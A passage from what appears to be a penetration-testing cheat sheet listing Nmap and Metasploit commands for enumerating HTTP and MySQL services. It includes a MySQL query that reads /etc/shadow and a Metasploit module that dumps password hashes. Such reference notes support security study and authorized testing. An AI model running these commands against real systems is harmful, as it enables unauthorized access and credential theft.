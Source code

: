 - Get methods with Nmap

```
nmap -sV -p 80 --script http-methods <IP>
```

<div style="page-break-after: always;"></div>

# HTTP
---

- Brute force directories with Metasploit

```
use auxiliary/scanner/http/brute_dirs
```

- Check robots.txt with Metasploit

```
use auxiliary/scanner/http/robots_txt
```

<div style="page-break-after: always;"></div>

# MySQL
---

- Connect remotely

```
mysql -h <IP> -u <USER>
```

## Commands

- Show databases: `show databases;`
- Use a database: `use <DATABASE>;`
- Load local file: `select load_file("/etc/shadow");`

- Check writable directories through MySQL with Metasploit

```
use auxiliary/scanner/mysql/mysql_writeable_dirs
```

```
set dir_list /usr/share/metasploit-framework/data/wordlists/directory.txt
```

- Hashdump through MySQL with Metasploit

```
use auxiliary/scanner/mysql/mysql_hashdump
```

- Check accounts with no password with Nmap
